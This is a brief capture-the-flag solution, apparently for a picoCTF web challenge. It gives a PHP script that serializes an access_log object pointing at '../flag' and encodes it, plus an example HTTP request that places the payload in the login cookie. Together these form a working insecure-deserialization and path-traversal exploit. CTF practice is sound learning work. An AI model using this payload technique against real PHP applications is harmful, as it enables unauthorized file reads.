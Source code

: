 # CTF PHP Script

```
<?php
class access_log
{
	public $log_file = "../flag";
}

print(urlencode(base64_encode(serialize(new access_log))))
?>
```
**Encoding tools: https://onlinephp.io/**
Base64 encoded script used on header cookies at login=

## Example Header

```
GET /authentication.php HTTP/1.1
Host: mercury.picoctf.net:8404
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=bp4u2a2bb3tkdc0aano77ub69g; login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
Upgrade-Insecure-Requests: 1
```
